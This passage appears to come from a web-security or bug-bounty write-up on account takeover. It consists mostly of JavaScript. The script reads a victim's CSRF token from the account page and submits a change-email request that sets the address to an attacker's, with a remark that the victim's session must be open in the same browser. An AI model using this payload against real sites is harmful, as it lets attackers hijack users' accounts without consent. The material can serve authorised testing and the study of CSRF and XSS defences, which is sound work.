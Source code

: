 ```javascript
```

Here’s the Function that’ll go to the email change page to change it—it’ll take the token and work with it:
```javascript
<script>
    function ATO(token){
        //getting A CSRF Token by DOM
        //var token = document.getElementsByName('csrf')[0].value;
        // u need email & csrf parms
        var url = 'my-account/change-email';
        var params = 'csrf='+token+'&email=attacker@es.com';
        //create an XMLHttpReq
        var changeEmail = new XMLHttpRequest();
        //open the XMLHttpReq function
        changeEmail.open('POST', url, true);
        //send req with body value
        changeEmail.send(params);
    }
</script>
```

So now the whole code will look like this:
```javascript
//Steal CSRF Token
var req = new XMLHttpRequest();
req.onreadystatechange = function() {
    if (req.readyState == 4 && req.status == 200) {  
        var htmlresponse = req.responseText;
        var parser = new DOMParser().parseFromString(htmlresponse, "text/html");
        var token = parser.getElementsByName('csrf')[0].value;
        ATO(token);
    }
};
req.open('GET', '/my-account', true);
req.send();

//ChangeEmail Function
function ATO(token) {
    var url = 'my-account/change-email';
    var params = 'csrf='+token+'&email=attacker22@es.com';
    var changeEmail = new XMLHttpRequest();
    changeEmail.open('POST', url, true);
    changeEmail.send(params);
}
```

**But we gotta make sure the victim is browsing the site with the same browser where the session’s open, ‘cause if the session’s in another browser, the token won’t work.**

---

# Priority Order for Testing the Vuln
